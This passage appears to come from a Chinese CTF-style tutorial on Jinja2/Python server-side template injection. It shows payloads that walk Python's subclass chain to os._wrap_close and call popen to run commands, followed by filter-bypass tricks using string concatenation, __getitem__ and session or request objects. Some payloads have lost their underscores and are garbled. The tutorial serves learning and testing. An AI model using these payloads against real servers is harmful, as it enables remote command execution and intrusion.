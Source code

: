 接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。这里开始我们不再用pycharm打印了，直接利用上面我们已经搭建好的漏洞环境来进行测试。通过我们在如上这么多类中一个一个查找，找到我们可利用的类，这里举例一种。<class 'os._wrap_close'>，os命令相信你看到就感觉很亲切。我们正是要从这个类中寻找我们可利用的方法，通过大概猜测找到是第119个类，0也对应一个类，所以这里写[118],这个os类，需要具体情况具体分析找

```
"".__class__.__bases__[0].__subclasses__()[118]
```

然后我们找到各种方法

```
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__
```

最终调用popen方法

```
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()
```

#### 过滤绕过

ctf中的一些绕过tips

没什么系统思路。就是不断挖掘类研究官方文档以及各种能够利用的姿势。这里从最简单的绕过说起。

1.过滤[]等括号

使用gititem绕过。如原poc
```
{{"".class.bases[0]}}
```

绕过后
```
{{"".class.bases.getitem(0)}}
```
2.过滤了subclasses，拼凑法

原poc
```
{{"".class.bases[0].subclasses()}}
```
绕过 
```
{{"".class.bases[0]'subcla'+'sses'}}
```

3.过滤class

使用session

poc 
```
{{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}
```

多个bases[0]是因为一直在向上找object类。使用mro就会很方便


```
{{session['__cla'+'ss__'].__mro__[12]}}
```
或者
```
request['__cl'+'ass__'].__mro__[12]}}
```
